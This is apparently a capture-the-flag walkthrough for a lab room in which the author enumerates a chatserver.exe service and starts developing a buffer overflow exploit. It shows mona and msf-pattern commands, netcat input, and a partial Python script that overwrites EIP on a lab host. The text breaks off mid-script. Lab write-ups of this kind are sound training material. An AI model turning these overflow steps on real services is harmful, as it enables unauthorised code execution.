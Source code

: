 Let's continue with the enumeration!

- Looking inside port 21 we find chatserver.exe 

##   Answer the questions below

**What is the name of the exe file you found?**

- chatserver.exe

* * *

## Task 3 - Access

**After enumeration, you now must have noticed that the service interacting on the strange port is some how related to the files you found! Is there anyway you can exploit that strange service to gain access to the system?**

- Setup Immunity Debugger and Mona in Kali VM and lets try to buffer overflow following our steps from [Buffer Overflow Prep](https://0xskar.github.io/TryHackMe-Buffer-Overflow-Prep), [Tib3rius Cheatsheet](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst)
- On our windows 7 32 bit vm download chatserver.exe and set it to bridged in vmware in order to avoid filtered port states.

**It is worth using a Python script to try out different payloads to gain access! You can even use the files to locally try the exploit.**

- Maybe [tib3reus](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst) can help me..

- I know no python. I need to learn python.

##   Answer the questions below

Read the description.

**After testing for overflow, by entering a large number of characters, determine the EIP offset.**

- Set working folder in Immunity. ``!mona config -set workingfolder c:\mona\%p``
- Create a.py with ``print ("A" *5000)`` and then ``python3 a.py`` and paste into netcat ``nc -nv 192.168.0.24 9999``
- The EIP Register should be overwritten by A's (\x41) this is great we also have EBP overwritten. If we can control and overwrite the EIP we can control and point to something malicious. 
- ``msf-pattern_create -l 5000`` and send in netcat 
- note this code overwrites the EAX the ESP and the EIP. **note the EIP 31704330**
- ``msf-pattern_offset -l 5000 -q 31704330``
- exact match at offset 2012 as long as this finds a exact match we are good to go.

```python
import socket
import sys

username = b"oskar"
message = b"A" * 2012 + b"B" * 4

try:
      print("Sending Payload...")
      s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
      s.connect(('192.168.0.24',9999))
      s.recv(1024)
      s.recv(1024)
      s.send(username + b'\r\n')
      s.recv(1024)
      s.send(message + b'\r\n')
      s.recv(1024)
      s.close()

except:
```